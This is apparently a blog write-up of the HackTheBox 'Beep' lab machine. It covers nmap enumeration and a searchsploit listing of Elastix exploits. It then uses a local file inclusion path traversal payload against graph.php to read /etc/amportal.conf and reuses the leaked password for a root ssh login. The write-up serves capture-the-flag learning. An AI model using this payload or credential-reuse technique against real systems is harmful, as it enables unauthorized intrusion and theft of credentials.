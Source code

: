```yaml
---
title: "HackTheBox - Beep"
author: Nasrallah
description: ""
date: 2022-08-15 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, lfi]
img_path: /assets/img/hackthebox/machines/beep
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Beep](https://app.hackthebox.com/machines/Beep) from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.7       
Host is up (0.40s latency).
Not shown: 988 closed tcp ports (reset) 
PORT      STATE SERVICE    VERSION    
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:                        
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd                    
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       Apache httpd 2.2.3                    
|_http-title: Did not follow redirect to https://10.10.10.7/
|_http-server-header: Apache/2.2.3 (CentOS)    
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: PIPELINING EXPIRE(NEVER) STLS APOP LOGIN-DELAY(0) RESP-CODES UIDL USER TOP IMPLEMENTATION(Cyrus POP3 server v2) AUTH-RESP-CODE
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)        
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
111/tcp   open  rpcbind    2 (RPC #100000)                              
| rpcinfo:                                                                    
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status                                                                                                                    
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_imap-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_imap-capabilities: Completed X-NETSCAPE RIGHTS=kxte THREAD=REFERENCES NAMESPACE ACL LISTEXT RENAME IMAP4 LIST-SUBSCRIBED MAILBOX-REFERRALS CHILDREN STARTTL
S URLAUTHA0001 THREAD=ORDEREDSUBJECT LITERAL+ IDLE MULTIAPPEND NO UIDPLUS ANNOTATEMORE ATOMIC OK SORT=MODSEQ UNSELECT ID BINARY CONDSTORE CATENATE QUOTA SORT
 IMAP4rev1
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
|_http-server-header: Apache/2.2.3 (CentOS)
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2022-08-19T08:56:58+00:00; -29m44s from scanner time.
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Elastix - Login page
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-known-key: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com
```

Nmap found quite a lot of services, but let's start with the webserver on port 80/443.

## Web

Navigating to the webserver we find the following.

![](1.png)

We found a login page for `elastix`, i tried some default credentials but lo luck login in.

Let's see if there is any exploits for this service.

```terminal
$ searchsploit elastix
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                                                                                      | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                                                    | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                                                              | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                           | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                                                                          | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                                                                         | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                                     | php/webapps/18650.py
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

We found a bunch of exploits, but let's try the local file inclusion one.

We can copy it with the following command.

```terminal
$ searchsploit -m php/webapps/37637.pl
  Exploit: Elastix 2.2.0 - 'graph.php' Local File Inclusion
      URL: https://www.exploit-db.com/exploits/37637
     Path: /usr/share/exploitdb/exploits/php/webapps/37637.pl
File Type: ASCII text

Copied to: /home/sirius/CTF/HTB/Machines/beep/37637.pl
```

Reading through the exploit, we found the following proof of concept.

```
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

Let's try it.

![](2.png)

It worked, for a better view, press `ctrl + u`.

![](4.png)

We found some passwords, wait! It's the same password being reused.


# **Foothold**

Let's try login as root with the password we found via ssh.

```terminal
$ ssh root@10.10.10.7                                                                                
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[root@beep ~]# 
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).